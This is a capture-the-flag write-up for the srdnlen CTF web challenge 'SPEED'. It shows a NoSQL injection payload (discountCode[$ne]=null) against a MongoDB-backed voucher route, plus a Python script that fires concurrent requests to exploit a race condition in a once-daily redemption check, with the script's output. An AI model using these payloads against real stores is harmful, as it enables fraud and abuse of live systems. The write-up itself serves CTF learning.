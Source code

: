 ## SPEED - srdnlen CTF - web (50)

![home](https://github.com/user-attachments/assets/b1d65157-8a7f-42d5-b6a4-2010a68109d1)

This web app is a Pixar Cars themed online store.

There are multiple functions on the page:

1. registering account
2. logging in
3. shopping sweet cars memorabilia
4. checking your cart
5. redeeming a voucher

![store](https://github.com/user-attachments/assets/b999c3b5-ec90-4981-8dbb-760b151be898)


The app is JSON based and we there is cookie usage for sessions.

We are provided with the app.js and routes.js file. After analyzing these files, the objective or task at hand is to find some way to get more discount codes so that we can buy the 4th item: "Lightning McQueen's Secret Text" for 50 points.

With this, we need to further analyze the discount code functions/routes. In app.js, not much is given to us except that the codes are randomly created and inserted into a mongoDB. Next we need to see how routes.js handles user input for the redeem gift card function.

From this snippet of code we see that no input validation is performed for the gift card redeem:

```
router.get('/redeem', isAuth, async (req, res) => {
    try {
        const user = await User.findById(req.user.userId);

        if (!user) {
            return res.render('error', { Authenticated: true, message: 'User not found' });
        }

        // Now handle the DiscountCode (Gift Card)
        let { discountCode } = req.query;
        
        if (!discountCode) {
            return res.render('error', { Authenticated: true, message: 'Discount code is required!' });
        }

        const discount = await DiscountCodes.findOne({discountCode})
```

From here, we take our knowledge of the backend MongoDB and lack of input validation to craft a NoSQL injection into the discountCode paramter through burpsuite:

```
/redeem?discountCode[$ne]=null
```

By appending [$ne]=null to the discountCode paramter, the backend MongoDB query turns int:

```
DiscountCodes.findOne({ discountCode: { $ne: null } });
```

The $ne means not equal and { $ne: null } tells MongoDB to match any document where the discount code is not null.

![burp](https://github.com/user-attachments/assets/da2c2e2b-a4df-4a26-9c11-7df82d168f3a)


We do this 3 times to get enough money to purchase the sweet Lightning McQueen text and get our flag for this challenge!

Not so fast, the discount codes can only be used once a day based on the following code:

```
// Check if the voucher has already been redeemed today
        const today = new Date();
        const lastRedemption = user.lastVoucherRedemption;

        if (lastRedemption) {
            const isSameDay = lastRedemption.getFullYear() === today.getFullYear() &&
                              lastRedemption.getMonth() === today.getMonth() &&
                              lastRedemption.getDate() === today.getDate();
            if (isSameDay) {
                return res.json({success: false, message: 'You have already redeemed your gift card today!' });
            }
        }

        // Apply the gift card value to the user's balance
        const { Balance } = await User.findById(req.user.userId).select('Balance');
        user.Balance = Balance + discount.value;
        // Introduce a slight delay to ensure proper logging of the transaction 
        // and prevent potential database write collisions in high-load scenarios.
        new Promise(resolve => setTimeout(resolve, delay * 1000));
        user.lastVoucherRedemption = today;
        await user.save();

        return res.json({
            success: true,
            message: 'Gift card redeemed successfully! New Balance: ' + user.Balance // Send success message
        });
```

There is a delay function when the codes are redeemed, so if we force the system to process multiple codes for one user at the same instance or under the delay threshold we should be able to redeem multiple codes. This is an example of a race conditions vulnerability.

To exploit this vulnerability, I make a python script that will send many requests with the above payload so that I can bypass the time of day check:

```
import requests
from concurrent.futures import ThreadPoolExecutor

# Define the URL and headers
url = "http://speed.challs.srdnlen.it:8082/redeem"
headers = {
    "Host": "speed.challs.srdnlen.it:8082",
    "Accept-Language": "en-US,en;q=0.9",
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.86 Safari/537.36",
    "Accept": "*/*",
    "Referer": "http://speed.challs.srdnlen.it:8082/redeemVoucher",
    "Accept-Encoding": "gzip, deflate, br",
    "Cookie": "jwt=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySWQiOiI2NzhlODZlOGQ4YjZmYzFkNTNlZmI3NjAiLCJpYXQiOjE3MzczOTM4OTcsImV4cCI6MTczNzQyOTg5N30.B6tFcK_ayKshfkfRDKYA3q9GnjZzkA6BTWSeW1_NxrY",
    "Connection": "keep-alive",
}

# Define the query parameters
params = {
    "discountCode[$ne]": "null"
}

# Function to send a single request
def redeem_code():
    response = requests.get(url, headers=headers, params=params)
    print(response.json())

# Exploit by sending multiple concurrent requests
with ThreadPoolExecutor(max_workers=10) as executor:
    futures = [executor.submit(redeem_code) for _ in range(10)]

# Check the responses to see if multiple redemptions occurred
```

The results:

```
{'success': True, 'message': 'Gift card redeemed successfully! New Balance: 20'}
{'success': True, 'message': 'Gift card redeemed successfully! New Balance: 40'}
{'success': False, 'message': 'You have already redeemed your gift card today!'}
{'success': False, 'message': 'You have already redeemed your gift card today!'}
{'success': True, 'message': 'Gift card redeemed successfully! New Balance: 60'}
{'success': False, 'message': 'You have already redeemed your gift card today!'}
{'success': False, 'message': 'You have already redeemed your gift card today!'}
{'success': False, 'message': 'You have already redeemed your gift card today!'}
{'success': False, 'message': 'You have already redeemed your gift card today!'}
{'success': False, 'message': 'You have already redeemed your gift card today!'}
```

When I go back to my browser to check my balance:

![money](https://github.com/user-attachments/assets/55ae55da-baa4-4597-9c0f-c4bb48ae215c)

From here, we can buy the Secret Text item and get our flag:

![flag](https://github.com/user-attachments/assets/4b2bd305-78eb-407a-bf8f-347c15379379)





#### Materials used

https://portswigger.net/web-security/nosql-injection

https://portswigger.net/web-security/race-conditions

